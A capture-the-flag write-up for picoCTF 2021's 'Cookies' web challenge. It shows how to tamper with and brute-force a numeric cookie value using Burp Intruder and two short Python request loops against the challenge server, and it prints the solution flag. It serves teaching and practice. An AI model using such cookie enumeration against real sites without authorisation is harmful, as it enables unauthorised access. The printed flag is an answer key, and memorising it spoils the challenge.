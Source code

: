 ### Cookies

Author: madStacks
#easy #web_exploitation #picoCTF2021 
#### Description

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)

##### Solution:
how to find cookies
![Cookies/web\_browser\_cookies.png](Cookies/web_browser_cookies.jpg)

change the value of cookies
![Cookies/changeing\_cookies\_value.png](../2024/Easy/Cookies/changeing_cookies_value.jpg)

now use burpsute to get the flag 
position setting
![Cookies/intruder\_attacking\_type.png](Cookies/intruder_attacking_type.jpg)

set payload to numbers
![Cookies/attacking\_payload.png](Cookies/attacking_payload.jpg)

and add grep match picoCTF{  to indentify flag
![Cookies/grep\_match\_setting.png](Cookies/grep_match_setting.jpg)
here is flag

![Cookies/Cookies/Cookies/Cookies/Cookies/Logon/Logon/flag.jpg](Cookies/flag.jpg)

flag is `picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}`
python code to get flag

```python
import requests

# Loop through a range of cookie values
for i in range(25):
    # Setting a different cookie value each time
    headers = {'Cookie': f'name={i}'}
    
    # Sending the GET request
    response = requests.get('http://mercury.picoctf.net:64944/check', headers=headers)
    
    # Printing the result for each cookie value
    print(f"Trying cookie name={i}")
    print(response.text)

    # Break the loop if the flag is found
    if 'picoCTF' in response.text:
        print("Flag found!")
        break
```

another python code
```python
#!/bin/python3
import requests

for i in range(25):
    # Show the current cookie being used
    print(f"Trying cookie value: {i}")
    
    cookie = 'name={}'.format(i)
    print(cookie)
    headers = {'Cookie': cookie}
    print(headers)
    # Make the request to the server
    r = requests.get('http://mercury.picoctf.net:64944/check', headers=headers)
    
    # Check if the response contains the flag
    if r.status_code == 200 and 'picoCTF' in r.text:
        print("Flag found!")
        print(r.text)
        break  # Exit loop once flag is found
    else:
        print(f"Status: {r.status_code}, No flag yet.")

```